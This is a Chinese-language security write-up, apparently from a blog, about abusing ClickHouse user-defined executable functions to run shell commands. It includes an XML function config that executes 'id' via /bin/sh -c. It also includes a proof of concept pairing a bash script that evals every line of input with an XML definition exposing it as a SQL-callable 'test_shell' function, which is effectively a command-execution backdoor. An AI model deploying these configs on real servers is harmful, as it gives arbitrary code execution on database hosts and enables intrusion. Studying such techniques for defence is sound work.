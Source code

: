 - lifetime  
 - 函数的重新加载间隔（秒）。如果设置为 0  
 ，则函数不会重新加载。默认值为 0  
 。可选参数。  
  
- format  
 - 一种将参数传递给命令的格式  
  
- command  
 - 要执行的脚本名称或命令，如果 execute_direct  
 为假。  
  
这样我们可以得出结论，execute_direct  
 = 0  
 ，则将 command  
 作为参数传递给 bin/sh -c  
。然后指定一下格式，以及lifetime时间。  
  
就可以写出一个执行命令的xml。  
```
<functions>    <function>        <type>executable</type>        <name>shell</name>        <return_type>String</return_type>        <format>raw</format>        <command>id</command>        <execute_direct>0</execute_direct>        <lifetime>1</lifetime>    </function></functions>
```  
  
其中默认的配置文件夹在/etc/clickhouse-server/ ，也就是我们把他写到这个文件下就可以调用。  
  
https://github.com/ClickHouse/ClickHouse/blob/master/programs/server/config.xml  
  
这里注意文件名在config中默认配置为  
```
 <user_defined_executable_functions_config>*_function.*ml</user_defined_executable_functions_config>
```  
  
所以文件名 用 xxx_function.xml 就好。  
  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFERibB4viaZfBAoYAj588nThZxY7l07PJTtZwgNfzCaNFksJcbUpMUX6pPibib1j2jqNW1nzVWPiaxTsicwA/640?wx_fmt=png&from=appmsg "")  
  
创建后可以进行查询  
  
通过继续查看后，可以发现，clickhouse可以调用python脚本、sh脚本。  
  
配置也是差不多，和上面的xml一样，在<execute_direct>为true的时候，command会在**/var/lib/clickhouse/user_scripts/**下找对应的脚本。默认不填写是为true。  
  
这里给一个poc  
  
/var/lib/clickhouse/user_scripts/test_shell.sh  
```
#!/bin/bashwhile read read_data;    do eval " $read_data ";done
```  
  
/etc/clickhouse-server/test4_function.xml  
```
<functions>    <function>        <type>executable</type>        <name>test_shell</name>        <return_type>String</return_type>        <argument>            <type>String</type>            <name>str</name>        </argument>        <format>raw</format>        <command>test_shell.sh</command>        <lifetime>1</lifetime>    </function></functions>
```  
  